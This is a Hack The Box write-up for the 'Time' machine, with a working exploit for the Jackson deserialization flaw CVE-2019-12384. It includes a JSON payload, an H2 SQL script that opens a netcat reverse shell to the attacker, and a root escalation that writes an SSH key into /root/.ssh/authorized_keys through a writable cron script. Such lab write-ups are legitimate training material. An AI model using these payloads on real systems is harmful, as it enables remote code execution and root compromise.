 ![](time_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="http://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.214 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.214`
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
```

## Web_server

__Title:__ __Online JSON parser :__ What is JSON PARSER ONLINE? JSON PARSER ONLINE lets you parse JSON string into a pretty and colorful JSON tree view. It parse JSON String and converts it into a human readable format string.

* there are two options 

  __Option1:__ __Beautify:__ convert JSON single string code into a JSON tree view.

  __Option2:__ __Validate (beta!):__ Validates a JSON string against RFC 4627 (The application/json media type for JavaScript Object Notation) and against the JavaScript language specification.

  * __Error in Validate (beta!) option__

    when Validate with normal text string it through an error

	    Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN

  *this error not indicate any vulnerability, this error occurs because of the serialization of a Javascript object. All String values MUST be enclosed in double quotes in JSON.*
  
  *if we sent same string inside double quotes it works fine.*

* But the Error tells that the server using JACKSON JSON parser,
  
  __[Jackson](https://github.com/FasterXML/jackson) :__ Jackson is a high-performance JSON processor for Java. More than that, Jackson is a suite of data-processing tools for Java (and the JVM platform), Jackson has been known as "the Java JSON library" or "the best JSON parser for Java".
  
  *this server using Jackson library for deserializing JSONs*
  
__vulnerability :__ deserialization vulnerability CVE-2019-12384

__Jackson gadgets - Anatomy of a vulnerability__ doyensec.com [Report](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

*an attacker may leverage this deserialization vulnerability to trigger attacks such as Server-Side Request Forgery (SSRF) and remote code execution.*

* __attack__

  this attack produce in 2 steps
  
  * __First__, serve the inject.sql INIT file through a simple http server,
  * __Second__, call the script from the server.
  
# User Exploit

__First__, create __inject.sql__  
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun0> 4141 >/tmp/f')
```

__Second__, serve the inject.sql INIT file through a simple http server

    sudo python -m SimpleHTTPServer 80
	  
__Third__, code that pass into the validate option
```json
[
   "ch.qos.logback.core.db.DriverManagerConnectionSource",
   {
      "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://<tun0>/injection.sql'"
   }
]
```
__Fourth__, open nc

    nc -nvlp 4141

__shell__,

```bash
listening on [any] 4141 ...
connect to [10.10.15.151] from (UNKNOWN) [10.10.10.214] 54528
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$
```

* __user flag__

	  pericles@time:/var/www/html$ cat ~/user.txt
	  cat ~/user.txt
	  76086ade************************

# Local Enumeration

running lipeas found a script owned by user pericles
```bash
[+] .sh files in path
You own the script: /usr/bin/timer_backup.sh
```

__timer_backup.sh__

	pericles@time:/home/pericles$ ls -lsh /usr/bin/timer_backup.sh
	ls -lsh /usr/bin/timer_backup.sh
	-rwxrw-rw- 1 pericles pericles 88 Nov 18 04:00 /usr/bin/timer_backup.sh

	pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
	cat /usr/bin/timer_backup.sh
	#!/bin/bash
	zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

* script specified some root task that means script is running as root
  * this script backup complete server directory in root
* script is running in every ~10sec and after that script get reseted

# Root Exploit

*putting any reverseshell in the `timer_backup.sh` to get a root shell dosen't works properly because script exits as soon as it excuted and so shell too.*
*simplest way to get proper root shell is to put ssh key in the script so that we can ssh as root.*

## public ssh key

* create ssh key: `ssh-keygen -f time`
* copy public ssh key: `cat time.pub`

	  ssh-rsa AAAA...ZXMk=

* put ssh key in `timer_backup.sh` script

	  echo "echo 'ssh-rsa AAAA...ZXMk=' >> /root/.ssh/authorized_keys" > /usr/bin/timer_backup.sh

* ssh in: `chdom 600 time`

	  ssh -i time root@10.10.10.214
	  
	  root@time:~# cat root.txt
	  dffebc49************************

### cron tab that occurs root privesc
`crontab -u root -l`
```bash
*/5 * * * * cp /root/timer_backup.sh /usr/bin/timer_backup.sh; chown pericles:pericles /usr/bin/timer.sh; chmod 766 /usr/bin/timer_backup.sh
```